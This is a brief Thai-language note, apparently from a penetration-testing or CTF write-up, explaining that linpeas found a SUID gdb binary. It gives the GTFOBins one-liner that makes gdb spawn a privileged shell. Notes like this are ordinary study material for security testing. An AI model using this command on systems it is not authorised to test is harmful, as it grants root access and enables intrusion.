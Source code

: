 [[SUID]] 

จากภาพด้านล่างเป็นการพบ gdb ที่สามารถใช้ [GTFOBINS](https://gtfobins.github.io/gtfobins/gdb/#suid) ได้ 

![[linpeas-1.png]]

```bash
./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```
